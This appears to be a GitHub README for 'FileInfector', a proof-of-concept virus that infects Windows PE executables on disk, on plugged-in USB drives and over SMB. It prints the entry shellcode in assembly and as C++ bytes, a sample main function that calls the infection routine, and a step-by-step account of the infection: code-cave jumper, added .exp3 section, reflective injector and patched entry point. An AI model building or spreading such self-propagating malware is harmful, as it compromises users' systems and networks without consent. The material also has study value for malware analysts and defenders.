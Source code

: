 # FileInfector


## About

This project is a POC code, easy to use, for infecting PE files with a other executable code.
You can interact with this code to infect any files in the harddisk, monitor for USB plug ins and infect their executables, infect over SMB and more.

For now it only works for Native executables (written in CPP / C)

The code is written with custom std aims to lower the size of the executable!

## Infecting a File

The code executes the main function, whenever it infects a file it will infect it with the current main function! So you need to care about the main function can run in multiple files simultaneously.

For example I created a simple executable which pops a MessageBox, I changed the main function to Infect the specific file (you can also infect multiple files and wait for USB connections and more)

```cpp{.line-numbers}
int main()
{
    MessageBoxA(0, "", "INFECTED", 0);

    bool succeed = Infector::InfectFile(L"C:\\Users\\Yoav\\Desktop\\YoavTools\\_shared\\FileInfector\\x64\\Release\\MessageBox - Copy.exe");

    if (succeed)
    {
        MessageBoxA(0, "", "INFECTED2", 0);
    }

    return 0;
}
```

The 'MessageBox - Copy.exe' file was infected with our code, what is the code? whatever we want... right now it is the code running in the main function, which will try to infect it again (that will not work because there is a mechanism that checks whether the file was already infected).

Here we can see the difference between to normal and infected file sizes
![Difference Size](InfectedFileVsNormalFile.png)


Here we can see the normal file is executing
![Normal file executing](NormalFileRunning.png)

Here we can see that the infected file is being executed and first executing our main function, which pop ups a message box, then trying to infect the same file without success.
![Normal file executing](InfectedFileRunningTheInfectedCodeFirst.png)

## How it works

Let's have a look at the InfectFile, for now there is only support for the Native version without the dotnet version.

We first create a 13 bytes long shellcode that will jump to our other shellcode, why? so we can insert those 13 bytes shellcode to the `.text` section and avoid being easly detected (The entrypoint will still point to the `.text` section)

The entry shellcode is the following
```assembly
PUSH RAX // 0x50 - to align the stack to 16
CALL REL // 0xE8 <Relative address to the next shellcode>
POP RAX // 0x58
JMP REL // 0xE9 <Relative address for the old main function>
```

```cpp
unsigned char shellcodeJumper[13];
shellcodeJumper[0] = 0x50; // PUSH RAX - TO ALIGN STACK TO 16
shellcodeJumper[1] = 0xE8; // CALL REL
*reinterpret_cast<DWORD*>(&shellcodeJumper[2]) = 0x01234567; // Relative address of new main function
shellcodeJumper[sizeof(DWORD) + 2] = 0x58; // POP EAX - TO REARENGE THE STACK FRAME BACK
shellcodeJumper[sizeof(DWORD) + 3] = 0xE9; // JMP REL
*reinterpret_cast<DWORD*>(&shellcodeJumper[sizeof(DWORD) + 4]) = 0x89ABCDEF; // Relative address of old main function
```

Now we use some functions that helps us get the code to infect with, the code is the constant `.exp3` section and if not found it means that this is the main infector file! so we will get the whole PE file and add above it a reflective injection shellcode to make it PIC.

After we got the code to inject with, we need to check if the executable is already infected, it is done by checking if specific section (`.exp3`) exists.

Later we infect the executable which searches for a code cave in the `.text` section, add the shellcode jumper to it. adds another section header and a section to the PE file that contains the reflective shellcode injector and underneath it (literally) adds the infector PE file. It also changes the relative addresses of the shellcode jumper it created earlier, fixing some values in the PE header (AddressOfEntryPoint...) and then just saves the newly modified file!

```
.text
    normal code
    - code cave (shellcode jumper) -------->
    normal code                            |
                                           |
.exp3                                      |
                                  <--------
    [shellcode reflective injector - doing reflective injection on the code underneath it]  
    [The infector PE file - executing the main code]
    returns to the shellcode jumper - [which calls the original main after]

```

![Infected file vs Normal file section headers](InfectedFileVsNormalFileSectionHeaders.png)

![Infected file vs Normal file AddressOfEntry](InfectedFileVsNormalFileAddressOfEntry.png)

